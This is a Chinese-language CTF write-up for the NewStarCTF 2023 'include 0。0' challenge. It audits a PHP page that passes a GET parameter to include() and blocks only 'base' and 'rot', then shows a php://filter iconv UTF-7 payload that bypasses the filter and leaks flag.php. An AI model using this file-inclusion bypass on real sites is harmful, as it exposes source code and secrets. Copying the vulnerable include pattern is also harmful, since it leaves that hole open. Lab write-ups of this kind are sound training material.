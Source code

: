 ```yaml
---
tags:
  - BuuCTF
  - 简单
  - Bypass
  - 伪协议
---
```


# \[NewStarCTF 2023\] include 0。0

## 前置工作

进入靶机网页，可见如下代码，进行代码审计

```php
<?php
highlight_file(__FILE__);
// FLAG in the flag.php
$file = $_GET['file'];
if(isset($file) && !preg_match('/base|rot/i',$file)){
    @include($file);
}else{
    die("nope");
}
?>
```

目标很明确，我们要把 `flag.php` 通过 `@include(file)` 弄出来，但是先看 if 条件语句里面的内容

```
isset($file) && !preg_match('/base|rot/i',$file)
```

首先要求的是通过 GET 传入的参数 `file` 存在，其次是里面不能出现 `base` 或者 `rot`，还很贴心地在正则表达式里面加了一个 `i`，表示不区分大小写

看到这里，已经知道要用 PHP 伪协议来解决问题了，我们通常可能都是这么写的：

```
php://filter/read=convert.base64-encode/resource=flag.php
```

或者像这样

```
php://filter/string.rot13/resource=flag.php
```

但很显然，他们俩都不行，我们需要想别的方法

## 另一种转换方式

说巧不巧，这边禁用了最常用的 `base` 和 `rot`，但恰好没有禁用掉 `iconv`，所以我们可以这么写

```
php://filter/read=convert.iconv.utf-8.utf-7/resource=flag.php
```

将 `flag.php` 从 `utf-8` 转为 `utf-7` 并输出，我们传入这个参数，得到如下内容

```php
<?php
highlight_file(__FILE__);
// FLAG in the flag.php
$file = $_GET['file'];
if(isset($file) && !preg_match('/base|rot/i',$file)){
    @include($file);
}else{
    die("nope");
}
?> +ADw?php //flag+AHs-77423cd8-2baa-4a40-9c05-e64e6cf46298+AH0
```

后面多出来的这一串就是从 utf-8 转到 utf-7 的字符，我们再给他丢到 CyberChef 里面转换一下，得到最终的 Flag：

```
<?php //flag{77423cd8-2baa-4a40-9c05-e64e6cf46298}
```